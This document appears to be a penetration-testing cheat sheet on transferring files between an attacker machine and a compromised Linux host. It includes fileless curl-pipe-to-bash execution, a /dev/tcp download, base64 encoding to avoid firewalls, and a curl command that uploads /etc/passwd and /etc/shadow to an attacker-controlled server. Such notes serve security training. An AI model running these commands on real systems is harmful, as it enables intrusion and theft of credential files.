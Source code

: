 ```yaml
---
title: Transferring files techniques - Linux
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - linux
  - exploitation
  - file transfer technique
  - backdoors
---
```


# Transferring files techniques  - Linux

## Replicating client-server 

### Setting up a server in the attacking machine 

#### Apache server

Once you have a folder structure such as "/var/www/" or "/var/www/html", and also an Apache server installed, you can serve all files from that path by initiating the service:

```bash
# Start Apache
service apache2 start

# Stop Apache
service apache2 stop

# Restart Apache
service apache2 restart

# See status of Apache server
service apache2 status
```

In Apache, the PHP module loves to execute anything ending in PHP. Also, by default, with Apache, if we hit a directory without an index file (index.html), it will list all the files.

#### Nginx

In Apache, the PHP module loves to execute anything ending in PHP. This is not very safe when allowing `HTTP` uploads, as we are trying to avoid that users cannot upload web shells and execute them.

```bash
# Create a Directory to Handle Uploaded Files
sudo mkdir -p /var/www/uploads/SecretUploadDirectory

# Change the Owner to www-data
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory

# Create Nginx Configuration File by creating the file /etc/nginx/sites-available/upload.conf with the contents:
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}

# Symlink our Site to the sites-enabled Directory
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/

# Start Nginx
sudo systemctl restart nginx.service

# If we get any error messages, check /var/log/nginx/error.log. we might see, for instance, port 80 is already in use.
```

Debuggin nginx:

First check: ensure the directory listing is not enabled by navigating to http://localhost/SecretUploadDirectory

Second check: Is default port in nginx already in use?

```bash
# Verifying Errors
tail -2 `/var/log/nginx/error.log`
# and we might check that port 80 could not be binded because is already in use

# See which service is using port 80
ss -lnpt | grep `80`
# we will obtain the service and also the pid. For instance `2811`

# Check pid, for instance pid 2811, and see who is running it
ps -ef | grep "2811"

# Remove NginxDefault Configuration to get around this, we can remove the default Nginx configuration, which binds on port 80.
sudo rm /etc/nginx/sites-enabled/default
```

Finally you can copy to your nging server all files you want to transfer with curl:

```bash
curl -T file.txt
# -T, --upload-file <file>; This transfers the specified local file to the remote URL. -T uses PUT http method
```


#### Simple python server

```shell-session
# Creating a Web Server with Python3
cd /tmp
python3 -m http.server 8000

# Creating a Web Server with Python2.7
python2.7 -m SimpleHTTPServer
```


#### Creating a Web Server with PHP

```shell-session
php -S 0.0.0.0:8000
```


#### Creating a Web Server with Ruby

```shell-session
ruby -run -ehttpd . -p8000
```


### Download files from victim's machine

#### wget

```shell-session
wget http://<SERVERIP>:<SERVERPORT>/<file>
```

#### curl

```shell-session
curl http://http://<SERVERIP>:<SERVERPORT>/<file> -o <OutputNameForFile>
```


### Fileless downloads using Linux

Because of the way Linux works and how pipes operate, most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

#### Fileless Download with cURL

```shell-session
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```


#### Fileless Download with wget

```shell-session
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

## Bash downloads

On the server side (attacking machine), setup a server by using one of the methodologies applied above.

On the client side (victim's machine):

```shell-session
# Connecting to the Target Webserver (attacking machine serving the file)
exec 3<>/dev/tcp/$ip/80

# Requesting the file to the server 
echo -e "GET /file.sh HTTP/1.1\n\n">&3

# Printing the Response
cat <&3
```


## SSH downloads and uploads: SCP

SSH implementation comes with an SCP utility for remote file transfer that, by default, uses the SSH protocol. 

Two requirements:

 - we have ssh user credentials on the remote host
 - ssh is open on port 22

On the server's side (attacker's machine):

```shell-session
# Enable the service
sudo systemctl enable ssh

# Start the server
sudo systemctl start ssh

# Check if port is listening
netstat -lnpt
```

From the attacker machine too:

```
# Download file foobar.txt saved in the victim's machin. Command is run from attacker machine connecting to the remote host (victim's machine)
scp username@$IPvictim:foobar.txt /some/local/directory

# Upload file foo.txt saved in attacker machine into the victim's. Command is run from attacker machine connecting to the remote host (victim's machine)
scp foo.txt username@$IPvictim:/some/remote/directory
```



## Base64

To avoid firewall protections we can:

**1.** Base64 encode the file:

```shell-session
base64 file.php -w 0

# Alternative
cat file |base64 -w 0;echo

```

**2.** Copy the base64 string, go to the remote host and decode it and pipe to a file:

```shell-session
echo -n "Looooooong-string-encoded-in-base64" | base64 -d > file.php
# -n: do not output the trailing newline
```

## Web upload

We can use [uploadserver](uploadserver.md).


```bash
# Install
python3 -m pip install --user uploadserver

# As we will use https, we will create a self-signed certificate. This file should be hosted in a different location from the web server folder
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

# Start the web server
python3 -m uploadserver 443 --server-certificate /location/different/folder/server.pem

# Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.
curl -X POST https://$attackerIP/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
# We used the option --insecure because we used a self-signed certificate that we trust.
```


## Backdoors

See [reverse shells](reverse-shells.md), [bind shells](bind-shells.md), and [web shells](web-shells.md).

